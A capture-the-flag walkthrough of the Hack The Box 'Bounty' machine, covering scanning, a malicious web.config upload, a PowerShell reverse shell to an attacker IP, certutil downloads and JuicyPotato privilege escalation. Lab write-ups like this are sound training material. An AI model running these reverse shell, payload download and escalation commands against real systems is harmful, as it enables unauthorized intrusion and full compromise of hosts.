

# [Bounty](https://app.hackthebox.com/machines/bounty)

```bash
nmap -p- --min-rate 10000 10.10.10.93 -Pn
```




After discovering one port (80), I can do greater nmap scan for this port.

```bash
nmap -A -sC -sV -p80 10.10.10.93 -Pn 
```


Directory enumeration, due to Microsoft IIS Server, I put '.aspx' and '.asp' file extensions.


```bash
gobuster dir -u http://10.10.10.93/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x aspx,asp,txt

```


I see 'transfer.aspx' file on this location, it is that we can upload images or some stuff.

But I tried, it **doesn't allow '.aspx' files** that I can upload malicious reverse shell.


But after enumeration (via **Intruder**), it allows '.config' files. That's why we can upload .config files with malicious reverse shell command.

That's [web.config](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config) file, and I configured this file as below.


Then, I add reverse shell into 'Invoke-PowerShellTcp.ps1' file as below.

```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.8 -Port 1337" >> Invoke-PowerShellTcp.ps1

```


Now, I open http.server on location where 'Invoke-PowerShellTcp.ps1' is located.


Once we upload file and browse.


My reverse shell works as below.

```bash
rlwrap nc -lnvp 1337
```


While on desktop of 'merlin' user, I cannot find flag as because it is hidden.

That's why I use below command.

```bash
gci -force  # Get-ChildItem by force
```

user.txt


While I run `whoami /priv` command and I see most dangerous privileges which is called 'SeImpersonatePrivilege'.


That's JuicyPotato vulnerability. You can get this malicious executable from [here](https://github.com/ohpe/juicy-potato/releases).

Then we need to generate malicous reverse shell file via `.bat` extension by using `msfvenom` command.

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.16.8 lport=1338 > dr4ks.bat
```


Now we have 'dr4ks.bat' and 'JuicyPotato.exe' file, let's upload these into target machine.

```bash
certutil -urlcache -split -f "http://10.10.16.8:8080/JuicyPotato.exe" C:\Users\merlin\Desktop\JuicyPotato.exe

certutil -urlcache -split -f "http://10.10.16.8:8080/dr4ks.bat" C:\Users\merlin\Desktop\dr4ks.bat

```


These files comes from this http.server.


Let's execute our payload.

```bash
./JuicyPotato.exe -p dr4ks.bat -l 1338 -t *
```


I got reverse shell from port (1338) which I created while creation of 'dr4ks.bat' file.


root.txt

